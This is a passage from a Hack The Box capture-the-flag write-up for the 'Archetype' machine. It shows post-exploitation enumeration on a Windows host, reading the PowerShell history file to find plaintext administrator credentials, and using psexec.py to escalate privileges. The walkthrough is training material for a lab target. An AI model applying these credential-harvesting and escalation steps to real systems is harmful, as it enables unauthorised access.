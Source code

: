 5\. We can now read the `user.txt` flag:  
``` {.python .numberLines}
type C:\Users\sql_svc\Desktop\user.txt

```

![writeup.exploitation.steps.5.1](Box%20Write-ups/htb.archetype/screenshot10.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
sql_svc@ARCHETYPE> id
archetype\sql_svc
sql_svc@ARCHETYPE>  
sql_svc@ARCHETYPE> uname
Host Name:                 ARCHETYPE
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
sql_svc@ARCHETYPE>  
sql_svc@ARCHETYPE> ifconfig
Ethernet adapter Ethernet0 2:
   Connection-specific DNS Suffix  . :
   IPv6 Address. . . . . . . . . . . : dead:beef::f1b0:217c:824d:11d2
   Link-local IPv6 Address . . . . . : fe80::f1b0:217c:824d:11d2%7
   IPv4 Address. . . . . . . . . . . : 10.10.10.27
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:339d%7
                                       10.10.10.2
sql_svc@ARCHETYPE>  
sql_svc@ARCHETYPE> users
sql_svc
Administrator
```

\newpage
## Phase #3: Privilege Escalation
1\. With our interactive shell running, we can now begin exploring the system further. Since the current user is a normal as well as service account, let's look at the Powershell history file to find any interesting commands:  
``` {.python .numberLines}
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

```

![writeup.privesc.steps.1.1](Box%20Write-ups/htb.archetype/screenshot11.png)  

2\. We find that the `backups` drive has been mounted using administrative privileges and the credentials are leaked in plaintext within the history file. We can use these credentials to gain elevated access on the system:  
``` {.python .numberLines}
psexec.py administrator@10.10.10.27

```
